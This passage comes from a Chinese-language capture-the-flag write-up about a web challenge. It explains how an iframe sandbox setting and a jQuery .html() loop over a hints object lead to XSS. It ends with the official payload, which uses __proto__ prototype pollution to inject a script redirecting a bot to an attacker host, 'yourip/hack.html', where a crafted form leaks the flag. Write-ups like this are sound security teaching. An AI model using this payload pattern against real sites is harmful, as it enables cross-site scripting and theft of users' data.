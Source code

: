 取出message的内容根据key来给`span.content`赋值，但是可以发现这里在构建iframe的时候

```javascript
this.sandbox.setAttribute('sandbox', 'allow-same-origin');
```

>sandbox具有如下特性
>
>- 访问父页面的DOM（从技术角度来说，这是因为相对于父页面iframe已经成为不同的源了）
>- 执行脚本
>- 通过脚本嵌入自己的表单或是操纵表单
>- 对cookie、本地存储或本地SQL数据库的读写

所以我们并无法在sandbox中执行脚本，需要在外部找寻一个利用点

```javascript
(function(){
		var hints = {
			header : "自定义内容",
			notice: "自定义公告",
			wiki : "自定义wiki",
			button:"自定义内容",
			message: "自定义留言内容"
		};
		for(key in hints){
			// console.log(key);
			element = $("li[type='"+key+"']"); 
			if(element){
				element.find("span.content").html(hints[key]);
			}
		}
	})();
```

要是我们可以操纵hints中的key和value就可以额操纵一个`li`标签来实现xss，需要这个type不在预先定义的hints中，但是又存在于html中，而在index.ejs中可以发现还真有这样的type，标准的诈胡

![](https://litch1-1256735124.cos.ap-beijing.myqcloud.com/20200215010233.png)

这样我们就可以操作这里完成我们的xss了，最后官方给的前端payload

```
{"type":"test","content":{"__proto__": {"logger": "<script>window.location='http://yourip/hack.html'</script>"}}}
```

在hack.html中自定义input和form让robot提交就可以获得flag